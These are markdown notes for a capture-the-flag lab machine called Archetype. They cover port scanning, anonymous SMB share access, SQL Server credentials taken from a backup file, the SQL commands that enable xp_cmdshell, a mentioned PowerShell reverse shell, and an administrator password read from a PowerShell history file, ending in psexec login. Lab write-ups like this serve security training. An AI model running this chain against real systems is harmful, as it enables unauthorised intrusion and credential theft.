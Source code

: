 - nmap it
	- 135: msrpc
	- 139: netbios-ssn
	- 445: Microsoft Server 2008 
		- likely vulnerable Samba
		- add `nmap --script smb-os-discovery <ip>`
			- => Computer name: Archetype
	- 1433: SQL server 2017 14.00.1000
		- CVEs: CVE-2021-1636, CVE-2019-1068, CVE-2019-0819
	- 

- smb
	- `smbclient -N -L //<IP>/`
		- list (-L) directories with no password (-N)
			- ADMINS\$ -> nothing
			- backups 
				- -> can sign in - backup file
					- `get <FILE> <>`
					- Username: `ARCHETYPE\sql_svc` 
					- Password: `M3g4c0rp123` 
					- Provider SQL
			- C\$ -> nothing
			- IPC\$ -> nothing

- SQL
	- connect to SQL: `mssqlclient ARCHETYPE\sql_svc:<password>@<IP> -windows-auth`
	- set up xp_cmdshell
		- ```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;  
			sp_configure;  
			EXEC sp_configure 'xp_cmdshell', 1  
			reconfigure;  
			xp_cmdshell "whoami"
		- run each on their own line
	- make shell.ps1 Powershell reverse shell script
	- run Python server
	- set up listerer
	- get access to the machine
		- find user flag in `C:\Users\sql_svc\Desktop`

- privilege escalation
	- check frequently access/execute file:
		- `type    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		- -> net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! 
		- Administrator: `Administrator`
		- Password: `MEGACORP_4dm1n!!`

- sign in to machine as Administrator
	- `psexec.py administrator@<IP>`
	- get Administrator's flag in `C:\Users\Administrator\Desktop`